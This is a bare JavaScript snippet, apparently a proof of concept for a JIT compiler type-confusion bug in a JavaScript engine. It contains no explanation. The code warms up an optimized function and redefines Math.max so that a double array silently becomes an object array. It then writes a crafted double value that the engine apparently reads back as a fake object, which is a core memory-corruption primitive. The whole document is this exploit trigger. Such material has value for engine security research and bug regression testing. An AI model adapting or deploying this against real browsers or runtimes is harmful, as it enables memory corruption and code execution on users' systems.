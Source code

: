 
function opt(arr, arr2) {
    arr[0] = 1.1;
    Math.max.apply(Math, arr2);
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3, 4.4];
    for (let i = 0; i < 10000; i++) {
        opt(arr, [1, 2, 3, 4]);
    }

    Math.max = function () {
        arr[0] = {};
    };

    opt(arr, {});  
    print(arr[0]);
}

main();
